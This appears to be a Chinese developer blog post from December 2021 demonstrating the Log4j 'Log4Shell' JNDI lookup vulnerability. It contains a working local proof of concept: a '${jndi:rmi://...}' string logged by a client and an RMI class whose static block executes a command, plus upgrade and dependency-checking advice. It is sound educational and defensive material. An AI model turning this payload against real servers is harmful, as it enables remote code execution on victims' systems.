 ```yaml
---
title: log4j 漏洞攻击
category: java
tags:
  - java
  - log4j
  - 日志
keywords:
  - sdvdxl
  - java
  - log4j
  - 日志
abbrlink: 7af9
tag_img: 'https://public-links.todu.top/1639498829.png?imageMogr2/thumbnail/!100p'
date: 2021-12-14 23:16:11
updateDate: 2021-12-14 23:16:11
---
```


事情起因于前几天（2021-12-10号）被全球广泛应用的组件Apache Log4j被曝出一个高危漏洞，攻击者仅需一段代码就可远程控制受害者服务器的事件。受影响的版本为 `Apache Log4j 2.x <= 2.14.1`。

其实这个本来算是log4j的一个特性，这个玩意在log4j里面叫做 [lookup](https://logging.apache.org/log4j/2.x/manual/lookups.html)，简而言之可以使用一些特定的变量进行数据处理包括远程调用。但也因为这个特性，如果是用户填写的内容被解释了，那么可能会造成远程调用，造成执行任意代码的危害，接下来我们演示下怎么重现这个问题。

代码已经放在了[码云-sdvdxl](https://gitee.com/sdvdxl/log4j-attack-demo)上，该工程是 maven+springboot项目，建议使用 idea 或者 eclipse 打开操作和运行程序（本人使用 mac + idea 作为开发调试环境）

>**仅供技术学习交流使用，切勿用来进行非法行为！如果因此造成危害，后果自付！**

## log4j远程执行过程

方便起见，这里使用了 [spring-start](https://start.spring.io/) 创建了一个 springboot 项目，完整代码参见上面连接。

该演示工程主要分为两部分：

- RMI Server（参见源码 `top.todu.log4j.attack.demo.rmi.server` 包的 java 文件）
- RMI Client （参见 `top.todu.log4j.attack.demo.Application` 文件）

### RMI server

RMI server 非常简单（没有深入研究rmi，所以简单写了个demo），主要内容解释：

1. RmiServerDemo 作为主程序，注册一个服务名称为 `call` 可以供 client 调用
1. 绑定端口 1099

### TestRunCommand

这个类起作用的就是静态代码块，被远程调用的时候，该静态代码库就会被执行

```java
static {
    try {
      // 要执行的命令，这里测试是在我自己的电脑上打开计算器程序
      Runtime.getRuntime().exec("open -a Calculator");
    } catch (IOException e) {
      e.printStackTrace();
    }
    System.out.println("rmi");
  }
```

这个代码远程执行的命令是：`open -a Calculator` 打开计算器（mac 系统上的命令），如果你是运行在windows上，可以将它改为其他命令，比如 `calc`。

运行 `RmiServerDemo` 启动 rmi server。

### RMI client

客户端代码非常简单，就是一个普通的带有 main 方法的类，加点打印日志的代码：

```java
package top.todu.log4j.attack.demo;

import java.util.concurrent.TimeUnit;
import org.apache.logging.log4j.Logger;
import org.slf4j.LoggerFactory;

// 模拟线上服务
// @Slf4j
public class Application {

  public static void main(String[] args) throws InterruptedException {
    Logger logger = org.apache.logging.log4j.LogManager.getLogger("log4j");
    String username = "${jndi:rmi://127.0.0.1:1099/call}";
    logger.info("用户登录，username: {}", username);
    logger.info("测试日志输出");
    System.out.println(LoggerFactory.getILoggerFactory().getClass().getName());
    TimeUnit.SECONDS.sleep(5);
  }
}

```

核心代码只有：

```java
Logger logger = org.apache.logging.log4j.LogManager.getLogger("log4j");
String username = "${jndi:rmi://127.0.0.1:1099/call}";
logger.info("用户登录，username: {}", username);
```

1. get 一个logger
2. 模拟用户（黑客）输入内容
3. 打印日志

启动main方法，稍等片刻，即可看到打开了本机的计算器；同时 client 打印了日志：

```txt
rmi
TestRunCommand{测试用toString}
log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr 用户登录，username: top.todu.log4j.attack.demo.rmi.server.ReferenceWraper@3e08ff24
[]wExlog4jlr log4jlr log4jlr log4jlr log4jlr log4jlr log4jlr 测试日志输出
[]wExorg.apache.logging.slf4j.Log4jLoggerFactory
```

但是，server端只打印了 **rmi server started** 信息。

因为server和client都是运行在本机上，所以效果不明显；如果 server 部署到另一台机器， client 还在我的电脑上，那么我重新运行 client的话，还是会在我本就上打开我的计算器。

很奇怪是不是？这个跟rmi的原理有关： rmi 远程调用的时候，server将相关代码序列化传输到client上，client再在本机上运行这段代码。所以，如果别有用心的人写了个 rmi server，上面写了个比较厉害的代码（比如下载木马病毒，窃取数据库，甚至删库），那么可想而知，你的服务器是不是就炸了。

这就是这次 slf4j 的漏洞的危害，级别被定义为了 `Critical` 非常严重！

## 漏洞修复方法

如果用了log4j，还是老老实实的升级版本吧，最保险。截止目前，官方已经升级了版本到 `2.16.0`， 从 `2.15.0` 开始，默认禁用此特性，后续也可能删除。

## 问题？

我的服务使用的是 springboot，里面依赖了包含有log4j的包，会受到危害吗？

这里先简单说一下：

首先查看项目依赖：

maven 命令：

`mvn dependency:tree >tree` 查看 tree 文件内容，看看是否依赖 log4j

1. 如果项目明确指定使用的是 log4j（这里说的是log4j 2.xx）， 并且版本在 2.14.1 及其以下，毋庸置疑，受到影响
1. springboot默认依赖的是logging框架，使用的是 logback，如果整个项目未包含任何log4j的内容，那么显然不在影响范围内
1. 如果实际指定日志框架为 logback，只含了 log4j-core ，理论上也不会收到影响

所以，重点是要看实际日志输出的时候是用的哪套框架。
